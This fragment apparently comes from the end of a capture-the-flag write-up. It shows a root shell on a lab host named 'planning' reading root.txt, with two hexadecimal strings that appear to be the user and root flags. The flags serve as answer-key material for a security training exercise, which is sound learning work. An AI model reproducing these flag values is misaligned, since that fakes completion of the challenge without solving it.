c23ae231ad3f0268af50195b561c9a7b
root@planning:/# cat root/root.txt
cat root/root.txt
58ddfb55370dc0a15c58fc7109b05330
```
